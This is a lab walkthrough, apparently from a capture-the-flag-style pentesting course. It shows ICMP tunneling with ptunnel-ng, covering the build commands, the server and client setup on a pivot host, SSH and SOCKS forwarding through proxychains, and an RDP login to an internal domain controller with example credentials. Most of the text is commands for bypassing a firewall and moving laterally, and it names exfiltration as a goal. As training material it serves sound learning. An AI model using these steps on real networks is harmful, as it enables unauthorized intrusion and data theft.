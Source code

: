 
## What is ICMP Tunneling?

ICMP Tunneling hides data inside **ICMP Echo Requests/Replies (ping packets)**. This works when outbound ping requests (ICMP traffic) are **allowed by the firewall**, but normal traffic like SSH or HTTP is **blocked**.

- **Goal**: Exfiltrate data or tunnel to internal networks by hiding it in ping packets.

## Tool Used: `ptunnel-ng`

**ptunnel-ng** (next-gen version) lets you:

- Use ICMP as the tunnel transport
- Connect from attacker → pivot → internal DC
- Tunnel SSH or even dynamic SOCKS proxies through ping packets

## Scenario

- **Attacker IP**: `10.10.14.18`
- **Pivot Host (Ubuntu)**: `10.129.202.64`
- **Internal DC**: `172.16.5.19`
- **Goal**: Get RDP to DC using ICMP tunnel → SSH dynamic forward → Proxychains

## 1️⃣ Clone ptunnel-ng (on Attacker)
```bash
git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng
sudo apt install automake autoconf -y
sudo ./autogen.sh   # OR build a static binary with:
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j4 all/' autogen.sh
sudo ./autogen.sh
```

## 2️⃣ Transfer to Pivot Host

```bash
scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

## 3️⃣ Run ptunnel-ng Server (on Pivot Host)

```bash
cd ptunnel-ng/src
sudo ./ptunnel-ng -r10.129.202.64 -R22
```

- `-r`: Target IP (itself)
- `-R`: Remote port to open (22 for SSH)

## 4️⃣ Run ptunnel-ng Client (on Attacker)

```bash
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```

- `-p`: Remote (pivot) IP
- `-l`: Local port (for example, 2222 on attacker)
- This sets up:  
    `127.0.0.1:2222 → ICMP → 10.129.202.64:22`

## 5️⃣ SSH Through ICMP Tunnel

```bash
ssh -p2222 -lubuntu 127.0.0.1
```

___
# Add Dynamic Port Forwarding

Once inside, run:
```bash
ssh -D 9050 -p2222 -lubuntu 127.0.0.1
```
This creates a **SOCKS5 proxy on port 9050**, usable with proxychains.
### Configure Proxychains
Edit `/etc/proxychains.conf`:
```bash
[ProxyList]
socks5 127.0.0.1 9050
```

## RDP into the Internal DC
```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123

#OR SCAN FIRST
proxychains nmap -sT -sV 172.16.5.19 -p3389
```

